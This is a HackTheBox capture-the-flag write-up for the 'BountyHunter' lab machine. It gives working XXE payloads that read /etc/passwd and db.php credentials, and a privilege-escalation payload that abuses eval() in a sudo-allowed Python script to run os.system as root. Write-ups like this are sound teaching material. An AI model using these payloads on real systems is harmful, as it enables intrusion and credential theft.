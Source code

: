 
# HackTheBox(HTB) - BountyHunter - WriteUp

> Austin Lai | November 18th, 2021

---

<!-- Description -->

![BountyHunter](img/BountyHunter.png)

Difficulty: Easy

The room is completed on November 03rd, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBoxHTB - BountyHunter - WriteUp](#hacktheboxhtb---bountyhunter---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

Rustscan:

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time âO>
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.100:22
Open 10.10.11.100:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 20:30 +08
Scanned at 2021-11-03 20:30:48 +08 for 7s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds
           Raw packets sent: 2 (88B) | Rcvd: 2 (88B)
```

Check on port 80 - HTTP.

Main page:

![main-page](img/main-page.png)

Portal page:

![portal-page](img/portal-page.png)

Bounty Report System page:

![bounty-report-system-page](img/bounty-report-system-page.png)

And we perform a web fuzzing through gobuster directories listing.

Gobuster:

```bash
http://10.10.11.100/.hta                 (Status: 403) [Size: 277]
http://10.10.11.100/.htaccess            (Status: 403) [Size: 277]
http://10.10.11.100/.htpasswd            (Status: 403) [Size: 277]
http://10.10.11.100/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
http://10.10.11.100/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
http://10.10.11.100/index.php            (Status: 200) [Size: 25169]
http://10.10.11.100/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
http://10.10.11.100/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
http://10.10.11.100/server-status        (Status: 403) [Size: 277]
```

There is one directory named ` resources ` contain interesting files:

![resources-page](img/resources-page.png)

Checking across all the files, ` README.txt ` is a checklist of tasks

![readme](img/readme.png)

And ` bountylog.js ` show the code to process and how the bounty report system work:

![bountylog-js](img/bountylog-js.png)

Then we decide to test out the bounty report system:

![testing-bounty-report-system](img/testing-bounty-report-system.png)

Checking the request information using browser developer tools, there is an interesting base64 information in the form data:

![request-header](img/request-header.png)

Decode the base64 and we get XML:

![decode-base64-request-header](img/decode-base64-request-header.png)

Seem like we can perform XXE Injection Attack.

We craft a basic XXE Injection payload here and encode with base64, best to use [CyberChef](https://gchq.github.io/CyberChef/) to encode to base64 and URL encode to encode all special characters:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

Result of encoding:

![result-of-encoding](img/result-of-encoding.png)

Now we can use ` curl ` command to post our payload to bounty report system, base on the information from ` bountylog.js `; it will be send the post request to ` tracker_diRbPr00f314.php` 

Result of post request using ` curl `:

![result-post-payload-curl](img/result-post-payload-curl.png)

The result we get contain a big chunk of base64, let's decode it and we get the ` /etc/passwd `

![passwd-output](img/passwd-output.png)

Great ! We have a workable XXE Injection attacks, now we target to read ` db.php ` that usually located at ` /var/www/html/ `.

Why we target ` db.php `? The ` README.txt ` shown there is a database connection from bounty report system; and ` db.php ` often contain plain text credential.

So in this case, we craft our XXE payload to read ` db.php `:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

And we encode it with base64 and URL encoding as well, then we use ` curl ` to post request to bounty report system along with our new payload to read ` db.php `.

Result of our new payload:

![result-new-xxe-payload](img/result-new-xxe-payload.png)

Then we decode it with base64 and we have a valid credential:

![valid-creds](img/valid-creds.png)

We tried to login to ssh using the credential we found, however unsuccessful.

While checking the ` /etc/passwd ` that we gotten ealier, there is another user - ` development `.

Using ` development `, we are now logging in to the system.

Checking user home directory.

![user.txt-and-contract.txt](img/user.txt-and-contract.txt.png)

Check sudo command:

![development-sudo](img/development-sudo.png)

From the sudo command, we know that ` development ` user can run python along with the ` ticketValidator.py `.

We examine the content of ` ticketValidator.py `.

<details><summary>ticketValidator.py</summary>

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

</details>

![ticketValidator.py](img/ticketValidator.py.png)

Based on the context of the script, we can supply our own markdown file with malicious payload.

If you carefully examine the script, there is a python evaluate statement, mean we can execute command using python evaluate statement.

In order to craft a valid markdown file to supply to the script, there are a few things to be included.

The markdown file must contain below as the script will validate the exact contain:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
```

The last part is calculation, the code we craft must start with ** and able to Modulus by 7 and equal to 4.

```
**102+ 10 == 112 
```

Then we append our payload after the code with ` and ` operator, python evaluate statement will process anything after ` and ` operator.

Our final content of the markdown file will be:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('cat /root/root.txt') == False
```

We save the markdown file as ` root.md ` in the ` development ` home directory.

![root.md](img/root.md.png)

Now we run the script and supply our own markdown file.

![root.txt](img/root.txt.png)

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

